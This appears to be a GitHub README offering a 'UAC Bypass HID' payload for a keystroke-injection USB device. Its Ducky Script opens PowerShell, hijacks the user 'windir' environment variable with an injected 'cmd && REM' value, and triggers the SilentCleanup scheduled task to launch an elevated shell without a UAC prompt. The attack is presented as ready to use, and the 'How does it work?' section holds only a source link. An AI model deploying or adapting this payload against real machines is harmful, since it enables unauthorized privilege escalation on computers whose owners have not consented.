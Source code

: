 # UAC Bypass HID
This payload bypasses the UAC

<img src="https://1.bp.blogspot.com/-31cvC2aPntY/WX8qJVj3OhI/AAAAAAAAoOI/X3ycE3JokCUQopcsQbj9mqLTO8GcDBDzgCLcBGAs/s1600/4.png" alt="http://www.elladodelmal.com">

Using the Environment Variables to bypass the UAC:

<img src="https://1.bp.blogspot.com/-A8Mwu4X3gQc/WX8qIzsdyVI/AAAAAAAAoN8/u13zbeQ2NVQjzL7-n9MZUQn3pXBkJvClACLcBGAs/s1600/2.png" alt="http://www.elladodelmal.com">

# CODE (Ducky Script)
<pre><code>GUI r
DELAY 200
STRING powershell
ENTER
DELAY 7000
ALT n
STRING reg add hkcu\Environment /v windir /d "cmd && REM"
ENTER
DELAY 1000
STRING schtasks /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I
ENTER
DELAY 200
STRING echo UAC Bypassed!
ENTER
</pre></code>


# How does it work?
Source: http://www.elladodelmal.com/2017/07/2017-el-ano-que-bypasseamos-uac.html
